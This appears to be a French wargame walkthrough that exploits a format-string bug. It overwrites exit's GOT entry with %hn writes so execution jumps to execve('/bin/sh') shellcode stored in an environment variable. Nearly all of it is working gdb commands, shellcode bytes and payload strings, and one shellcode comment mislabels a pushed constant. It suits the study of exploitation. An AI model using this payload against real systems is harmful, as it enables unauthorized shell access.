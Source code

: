 # gdb:
	> disas exit
<<< Dump of assembler code for function exit@plt:
<<< 0x08048370 <+0>:	jmp    *0x80497e0
<<< 0x08048376 <+6>:	push   $0x18
<<< 0x0804837b <+11>:	jmp    0x8048330
<<< End of assembler dump.

On va modifier exit pour qu'il jump au shellcode ci-dessous:

# char sc[] = "\x6a\x0b" // push byte +0xb
# "\x58" // pop eax
# "\x99" // cdq
# "\x52" // push edx
# "\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
# "\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
# "\x89\xe3" // mov ebx, esp
# "\x31\xc9" // xor ecx, ecx
# "\xcd\x80"; // int 0x80

# bash:
	> export PAYLOAD05=$(python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")

# gdb:
	> b main
	> r
	> x/s *((char **)environ+16)
<<< 0xffffdf34:	 "PAYLOAD05=j\vX\231Rh//shh/bin\211\343\061\311̀"
	> x/s 0xffffdf3e
<<< 0xffffdf3e:	 "j\vX\231Rh//shh/bin\211\343\061\311̀"

Notre payload a l'adresse 0xffffdf3e

0xffffdf3e
0xffffdf3e - 8 = 0xFFFFDF36

# bash:
	b *0x0804850c
	r < <(cat /tmp/payload05)
	x/24bx 0xffffd678

	python -c 'print "\xff\xff\xd6\x78"[::-1] + "\xff\xff\xd6\x7a"[::-1] + "%57142c" + "%10$hn" + "%8385c" + "%11$hn"' > /tmp/payload05

	python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%57142c" + "%10$hn" + "%8385c" + "%11$hn"' > /tmp/payload05

	x/24bx 0x08048370
0x8048370 <exit@plt>:	0xff 0x25 0xe0 0x97 0x04 0x08 0x68 0x18
0x8048378 <exit@plt+8>: 0x00 0x00 0x00 0xe9 0xb0 0xff 0xff 0xff